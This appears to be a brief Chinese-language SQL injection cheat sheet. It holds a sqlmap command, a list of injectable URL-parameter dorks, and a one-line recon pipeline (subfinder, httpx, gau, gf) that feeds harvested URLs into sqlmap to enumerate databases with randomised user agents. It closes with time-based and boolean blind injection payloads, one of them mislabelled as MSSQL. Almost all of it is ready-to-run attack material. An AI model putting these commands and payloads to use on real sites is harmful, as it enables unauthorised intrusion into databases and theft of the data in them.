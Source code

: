 # SQL注入

## 快速自动化测试注入

`Sqlmap -u https://url/something/*`



## top 10 Dorks

```
1.?id=
2.?cat=
3.?view=
4.?mode=
5.?tid=
6.?product_id=
7.?act=
8.?item_id=
9.?table=
10.?module=
```



## one-line

```
subfinder -d http://target.com > subs
cat subs | httpx > subs.alive
cat subs.alive | gau_go -b jpg,png,gif > urls.check
gf_go sqli urls.check > urls.sqli
sqlmap -m urls.sqli --dbs --batch --random-agent
```

联动

```
cat subs.alive | gau_go -b jpg,png,gif > urls.check && gf_go sqli urls.check > urls.sqli && sqlmap -m urls.sqli --dbs --batch --random-agent
```



## 测试语句

```
select if( table_name like 'x', benchmark(100000,sha1('_Y000!_')), concat(table_name) ) from information_schema.tables
```



mssql

```
'xor(if(now()=sysdate(),sleep(10),0))or'
```



```
1 AND 1726=1726
```

